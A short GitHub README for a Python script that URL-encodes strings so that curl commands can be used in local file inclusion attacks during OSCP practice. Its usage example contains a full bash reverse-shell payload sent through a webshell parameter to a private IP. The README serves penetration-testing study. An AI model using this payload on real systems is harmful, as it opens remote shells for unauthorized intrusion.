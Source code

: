 # URL-Encoder

*For educational and authorized security research purposes only.*

## Author
[@mbrenton](https://github.com/mbrenton)

## Description
Python script to URL encode a string/command. I made this to automate the process of encodng curl commands for LFI for the OSCP. Can either be used by specifying an argument, or will be prompted for user input if not specified.

## Usage
```bash
python3 url-encoder.py "curl http://root.me/webshell?cmd=bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

## Demo
![alt text](img/image.png)
